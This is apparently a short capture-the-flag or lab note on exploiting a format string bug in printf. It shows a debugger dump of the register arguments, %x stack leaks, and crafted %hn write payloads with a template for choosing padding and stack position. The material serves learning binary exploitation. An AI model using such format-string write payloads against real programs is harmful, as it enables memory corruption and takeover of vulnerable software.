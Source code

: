 
%rdi, %rsi, %rdx, %rcx, %r8 and %r9

```
printf@plt (
   $rdi = 0x00007fffffffdd30 → "%x:%x:%x:%x:%x:%x:%x:%x\n@\t@UUU",
   $rsi = 0x00007fffffffb680 → "\nYour card is: ard.. Something is wrong!\n\nInser[...]",
   $rdx = 0x00007ffff7bed8c0 → 0x0000000000000000
)


Continuing.
ffffb680:f7bed8c0:0:f:0:deadbeef:ffffdd20:253a7825
%x:%x:%x:%x:%x:%x
%6$x
%47798x%6$hn%4160x%7$hn
@       @UUU
```

![[Pasted image 20230620112415.png]]


our stack has the point to the location we want to write to at position 7, poistion 6 is the value

```
%4919x%7$hn
%<number of padding>%<poistion in stack>$hn

```

